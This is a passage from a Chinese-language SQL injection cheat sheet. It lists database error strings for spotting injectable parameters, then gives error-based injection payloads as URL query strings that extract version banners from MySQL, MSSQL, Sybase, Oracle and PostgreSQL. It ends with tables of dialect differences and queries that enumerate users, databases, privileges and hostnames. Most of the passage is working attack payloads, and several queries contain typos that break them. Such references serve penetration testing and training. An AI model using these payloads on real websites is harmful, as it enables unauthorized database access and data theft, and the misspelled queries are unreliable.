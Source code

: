 *   Microsoft OLE DB Provider
*   ORA-
*   PLS-
*   Error in your SQL Syntax
*   SQL Error
*   Incorrect Syntax near
*   Failed Mysql
*   Unclosed Quotation Mark
*   JDBC/ODBC Driver

### 3.2 版本查询

*   Mysql:`/?param=1 select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))`
*   MSSQL:`/?param=1 and(1)=convert(int,@@version)--`
*   Sybase:`/?param=1 and(1)=convert(int,@@version)--`
*   Oracle >=9.0:`/?param=1 and(1)=(select upper(XMLType(chr(60)||chr(58)||chr(58)||(select replace(banner,chr(32),chr(58)) from sys.v\_$version where rownum=1)||chr(62))) from dual)—`
*   PostgreSQL:`/?param=1 and(1)=cast(version() as numeric)--`

### 3.3 SQL方言差异

| DB | 连接符 | 行注释 | 唯一的默认表变量和函数 |
| --- | --- | --- | --- |
| MSSQL | %2B（URL+号编码）(e.g. ?category=sho’%2b’es) | -- | @@PACK_RECEIVED |
| MYSQL | %20 （URL空格编码） | # | CONNECTION_ID() |
| Oracle | `||` | -- | BITAND(1,1) |
| PGsql | `||` | -- | getpgusername() |
| Access | “a” & “b” | N/A | msysobjects |

### 3.4 SQL常用语句

**SQL常用语句**

| 内容 | MSSQL | MYSQL | ORACLE |
| --- | --- | --- | --- |
| 查看版本 | select @@version | select @@version select version() | Select banner from v$version; |
| 当前用户 | select system_users; select suer_sname(); select user; select loginname from master..sysprocesses WHERE spid =@@SPID; | select user(); select system_user(); | Select user from dual |
| 列出用户 | select name from master..syslogins; | select user from mysql.user; | Select username from all_users ORDER BY username; Select username from all_users; |
| 当前库 | select DB_NAME(); | select database(); | Select global_name from global_name; |
| 列出数据库 | select name from master..sysdatabases; | select schema_name from information_schema.schemata; | Select ower,table_name from all_users; #列出表明 |
| 当前用户权限 | select is_srvolemenber(‘sysadmin’); | select grantee, privilege_type,is_grantable from information schema.user privileges; | Select * from user role_privs; Select * from user_sys_privs; |
| 服务器主机名 | select @@servername; | / | Select sys_context(‘USERENV’,’HOST’) from dual; |
